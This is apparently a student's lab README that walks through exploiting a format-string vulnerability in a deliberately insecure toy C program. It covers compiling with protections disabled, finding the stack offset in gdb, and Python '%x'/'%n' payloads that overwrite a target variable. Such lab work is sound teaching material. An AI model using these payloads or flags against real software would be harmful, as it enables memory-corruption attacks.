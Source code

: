 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
`export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"`
3. Compile the file with GCC to create an executable object
'''
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g
'''
4. Execute the file to ensure its working
'''
   ./vuln test
'''
Should return:

5. Opend program in debugger
'''
    gdb vuln
'''
6. Run program with '%x' whitch will return data from the stack - the hexadecimal value of stack
'''
    run %x
'''
Should return: ![Alt text](image-1.png)
7. Add a brakepoint at line 16 (where the call is made from the main fucntion to the vuln function)
'''
    break 14
'''
8. Run program again
'''
    run %x
'''
Shoudl return: ![Alt text](image-2.png)
9. Check the contect on the %esp registers by running
'''
    x/100x %esp
'''
Should return:
    ![Alt text](image-3.png)
10. So the str is located that 0xbffff789 and the '%x' value (0x4020e3fc) at 0xbffff550
    The distance between str and %x is 0xbffff789 - 0xbffff550 = 569 (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is devisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the 'target' varaible is around 143 positions away from the start of the stack
    We can run a command that will pring us hexadecimal values up 143 places 
'''
11. Try and fail
    Try 143 spaces and see if you can see 414141 (represention of AAAA)
'''
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
'''
Output: ![Alt text](image-4.png)
    Try to increase 143 to 146
'''
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
'''
![Alt text](image-5.png)
    Ok, I can now see the hexadecima representaion of AAAA but it is not at the end of the output, I need to get rid of the '00'

    Try with adding extra padding (BB)
'''
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
'''
   ![Alt text](image-8.png)
Ok, my string is now pointing to the hexadecimal represention of 'AAAA'

12. Replace AAAA with the address of the 'target' variable 
    To find the target variable type: '''p &target '''
    The output should be: ![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run commant with the address (its read from the back for fun)
- replace last '%x' with '%n' (x is reading and n is writing)
'''
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
'''
Output: ![Alt text](image-9.png)
14. See value of taget chaning
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed
![Alt text](image-10.png)




